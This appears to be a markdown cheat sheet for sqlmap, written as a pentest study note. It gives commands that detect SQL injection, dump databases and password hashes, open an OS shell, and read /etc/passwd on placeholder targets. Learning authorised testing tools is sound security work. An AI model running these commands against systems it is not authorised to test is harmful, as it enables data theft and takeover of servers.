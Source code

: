 
---

Run it with:
```
python3 sqlmap.py -h
```

Or use `sqlmap` directly if it's already in your path.

---

## Basic Usage

```bash
sqlmap -u "http://target.com/page.php?id=1" --batch
```

|Flag|Purpose|
|---|---|
|`-u`|Target URL|
|`--batch`|Non-interactive (auto-confirm prompts)|

---

## Key Options

### Detect SQLi and Database Info

```bash
sqlmap -u "http://target.com/page.php?id=1" --dbs
```

### List Tables

```bash
sqlmap -u "http://target.com/page.php?id=1" -D <database> --tables
```

### Dump Table Data

```bash
sqlmap -u "http://target.com/page.php?id=1" -D <database> -T <table> --dump
```

### Find Columns

```bash
sqlmap -u "http://target.com/page.php?id=1" -D <database> -T <table> --columns
```

---

## Authentication & Cookies

If login is required:

```bash
sqlmap -u "http://target.com/page.php?id=1" --cookie="PHPSESSID=xyz" --dbs
```

Or using HTTP authentication:

```bash
sqlmap -u "http://target.com/page.php?id=1" --auth-type=Basic --auth-cred="user:pass"
```

---

## POST Data Injection

```bash
sqlmap -u "http://target.com/login.php" --data="username=admin&password=pass" --dump
```

---

## Advanced Features

|Feature|Command Example|
|---|---|
|Test all parameters|`--forms` or `-p ALL`|
|OS command execution|`--os-shell`|
|File read/write|`--file-read=/etc/passwd` / `--file-write`|
|Password cracking|`--passwords`|
|Custom user-agent|`--user-agent="Mozilla/5.0"`|

---

## Tips for Success

- Always test with `--batch` in automation to skip prompts.
    
- Combine with tools like **Burp Suite** to grab complex requests.
    
- Use `-v 3` or higher to increase verbosity for debugging.
    

---
## 📋 Example: Full Command

```bash
sqlmap -u "http://10.10.1.10/item.php?id=2" --cookie="admin=true" --risk=3 --level=5 --dump
```

---

## Summary

| SQLmap Strengths    | Description                             |
| ------------------- | --------------------------------------- |
| Fully automated     | Detects and exploits SQLi automatically |
| Versatile           | Supports GET, POST, headers, cookies    |
| Deep extraction     | Dumps DBs, executes OS commands         |
| Actively maintained | Updated regularly with new features     |
|                     |                                         |
